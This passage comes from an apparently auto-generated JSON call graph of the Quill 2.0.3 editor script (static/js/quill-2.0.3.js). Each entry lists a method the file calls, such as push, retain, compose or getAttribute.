"target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "registerEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unregisterEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "partition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "changeLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peek"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasNext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasNext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "eachLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peek"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transformPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasNext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "chop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transformPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasNext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peek"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "peekType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "binding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", 